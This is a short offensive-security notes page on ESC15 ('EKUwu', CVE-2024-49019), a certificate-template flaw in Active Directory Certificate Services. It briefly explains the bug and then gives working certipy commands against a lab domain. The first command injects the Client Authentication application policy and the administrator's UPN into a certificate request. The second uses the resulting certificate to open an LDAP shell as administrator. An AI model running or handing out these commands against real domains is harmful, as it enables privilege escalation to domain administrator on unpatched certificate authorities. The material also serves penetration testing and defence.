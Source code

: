 # ESC15

## ABOUT

<mark style="color:red;">**ESC15**</mark>, also known by the community name <mark style="color:yellow;">**"EKUwu"**</mark> (research by Justin Bollinger from TrustedSec) and tracked as **CVE-2024-49019**, describes a vulnerability affecting unpatched CAs. It allows an attacker to inject arbitrary Application Policies into a certificate issued from a Version 1 (Schema V1) certificate template. If CA is not patched, it could include these Attacker-given policies and grant certificate with unintented capabilities.

## EXPLOITATION

> I used Scenario A

#### **Request a certificate, injecting "Client Authentication" Application Policy and target UPN.**

```bash
certipy req -u 'netrunner@arasaka.local' -p 'P@ssword123' -dc-ip '13.13.13.13' -target 'CA.ARASAKA.LOCAL' -ca 'ARASAKA-CA' -template 'WebServer' -upn 'administrator@arasaka.local' -sid 'S-1-5-21-...-500' -application-policies 'Client Authentication'
```

#### Use certificate to get a LDAPS shell

```bash
certipy auth -pfx 'administrator.pfx' -dc-ip '13.13.13.13' -ldap-shell
```

## RESOURCES

{% embed url="https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu" %}
